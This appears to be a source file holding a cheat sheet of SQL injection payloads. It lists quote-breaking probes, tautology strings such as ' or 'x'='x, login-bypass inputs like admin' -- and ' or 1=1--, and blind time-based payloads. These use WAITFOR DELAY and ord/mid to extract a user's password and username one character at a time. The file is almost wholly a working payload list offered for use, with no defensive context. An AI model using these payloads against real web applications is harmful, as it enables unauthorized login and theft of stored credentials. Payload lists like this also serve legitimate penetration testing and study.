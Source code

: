 # SQLi_Example_Basic
########### Examples basic for SQL injection ############################
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x 
============== blind SQLi ==============
id=1+AND+555=if(ord(mid ((select+pass+from+user+limit+0,1),1,1))=97,555,777)
check for username length:
id=1; IF (LEN(USER)=1) WAITFOR DELAY '00:00:10'--
id=1; IF (LEN(USER)=2) WAITFOR DELAY '00:00:10'--
id=1; IF (LEN(USER)=3) WAITFOR DELAY '00:00:10'--
check if 1st character in username containt A, B or C
id=1; IF (ASCII(lower(substring((USER), 2,1)))=97) WAITFOR DELAY '00:00:10'--
id=1; IF (ASCII(lower(substring((USER), 2,1)))=98) WAITFOR DELAY '00:00:10'--
id=1; IF (ASCII(lower(substring((USER), 2,1)))=99) WAITFOR DELAY '00:00:10'--

==========Bypass Login by SQLi ==============
admin' --
admin' #
admin' /*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--

========blind SQL injection check====================
MS SQL: waitfor delay '0:0:10'--
MySQL: BENCHMARK (howmanytimes, do this)
